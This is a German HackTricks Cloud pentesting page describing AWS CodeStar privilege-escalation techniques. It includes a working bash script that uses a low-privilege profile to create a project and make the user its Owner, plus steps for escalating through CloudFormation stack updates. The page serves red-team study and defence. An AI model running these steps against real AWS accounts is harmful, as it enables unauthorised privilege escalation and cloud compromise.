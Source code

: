# AWS - Codestar Privilegieneskalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Heldenniveau mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

## Codestar

Weitere Informationen zu Codestar finden Sie unter:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Mit diesen Berechtigungen können Sie **eine Codestar-IAM-Rolle missbrauchen**, um **beliebige Aktionen** über eine **CloudFormation-Vorlage** auszuführen. Überprüfen Sie die folgende Seite:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Diese Technik verwendet `codestar:CreateProject`, um ein Codestar-Projekt zu erstellen, und `codestar:AssociateTeamMember`, um einen IAM-Benutzer zum **Besitzer** eines neuen CodeStar-**Projekts** zu machen, was ihnen eine **neue Richtlinie mit einigen zusätzlichen Berechtigungen** gewährt.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Wenn Sie bereits ein **Mitglied des Projekts** sind, können Sie die Berechtigung **`codestar:UpdateTeamMember`** verwenden, um **Ihre Rolle** auf Eigentümer zu aktualisieren, anstatt `codestar:AssociateTeamMember`.

**Mögliche Auswirkungen:** Privilege Escalation zur codestar-Richtlinie generiert. Ein Beispiel für diese Richtlinie finden Sie unter:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Erstellen eines neuen Projekts:**
- Verwenden Sie die Aktion **`codestar:CreateProjectFromTemplate`**, um die Erstellung eines neuen Projekts zu initiieren.
- Nach erfolgreicher Erstellung wird automatisch Zugriff auf **`cloudformation:UpdateStack`** gewährt.
- Dieser Zugriff zielt speziell auf einen Stack ab, der mit der IAM-Rolle `CodeStarWorker-<generischer Projektname>-CloudFormation` verknüpft ist.

2. **Aktualisieren des Ziel-Stacks:**
- Mit den gewährten CloudFormation-Berechtigungen können Sie mit der Aktualisierung des angegebenen Stacks fortfahren.
- Der Name des Stacks entspricht in der Regel einem der beiden Muster:
- `awscodestar-<generischer Projektname>-infrastructure`
- `awscodestar-<generischer Projektname>-lambda`
- Der genaue Name hängt vom gewählten Template ab (siehe das Beispiel-Exploit-Skript).

3. **Zugriff und Berechtigungen:**
- Nach der Aktualisierung erhalten Sie die Fähigkeiten, die der **CloudFormation IAM-Rolle** zugeordnet sind, die mit dem Stack verknüpft ist.
- Hinweis: Dies gewährt nicht automatisch volle Administratorrechte. Möglicherweise sind zusätzliche falsch konfigurierte Ressourcen in der Umgebung erforderlich, um die Berechtigungen weiter zu eskalieren.

Für weitere Informationen lesen Sie die ursprüngliche Forschung: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Den Exploit finden Sie unter [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**Mögliche Auswirkungen:** Privilege Escalation zur CloudFormation IAM-Rolle.
